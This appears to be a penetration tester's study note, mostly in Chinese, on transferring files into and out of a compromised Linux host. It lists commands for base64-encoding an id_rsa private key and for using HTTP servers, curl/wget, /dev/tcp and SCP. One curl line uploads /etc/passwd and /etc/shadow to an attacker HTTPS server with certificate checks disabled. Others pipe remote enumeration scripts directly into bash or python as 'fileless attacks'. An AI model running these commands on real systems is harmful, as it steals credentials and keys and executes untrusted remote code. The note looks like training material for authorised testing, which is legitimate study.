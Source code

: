 - Check File integrity: `md5sum id_rsa`
# Base64 Encode/Decode Transfer
将文件base64编码后，在复制回来解码
```bash
cat id_rsa |base64 -w 0;echo
echo -n 'LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZ...' | base64 -d > id_rsa
```

# HTTP Transfer
## Set Up a HTTP Server
也可以通过在远程主机启动http server来下载文件。**--- fireWall : Inbound traffic may be blocked**
```bash
python3 -m http.server
python2.7 -m SimpleHTTPServer
php -S 0.0.0.0:8000
ruby -run -ehttpd . -p8000

wget 192.168.49.128:8000/filetotransfer.txt
```
## Curl && Wget
如果目标主机有这两功能，也是比较常用的命令，**它们还可以实现无文件执行payload!**
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
Upload：
#confusion 用自签名的https跟http有什么区别？
```bash
#启动HTTPS服务器； 将生成的自签名放到其他目录（不能在上传用的根目录下）下。通过命令行引用
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem

curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
### Fileless Attaks
就是将下载的文件的标准输出发送到执行程序中，进入内存执行
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
## Use Bash to Download
>当没有Wget/Curl可以用的时候。直接使用bash的/dev/TCP传输(bash >= 2.04, 使用--enable-net-redirections 编译)
>响应还是比较慢的。要自己写标头
```bash
exec 3<>/dev/tcp/10.10.10.32/80 #自定义的I/O文件描述符
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
cat <&3 >{$file}
```
# SCP
>语法与cp类似，最好创建一个专用发送账号
```bash
sudo systemctl enable ssh #scp只能发送到ssh服务器中，启动ssh服务器
sudo systemctl start ssh
scp plaintext@192.168.49.128:/root/myroot.txt . 
```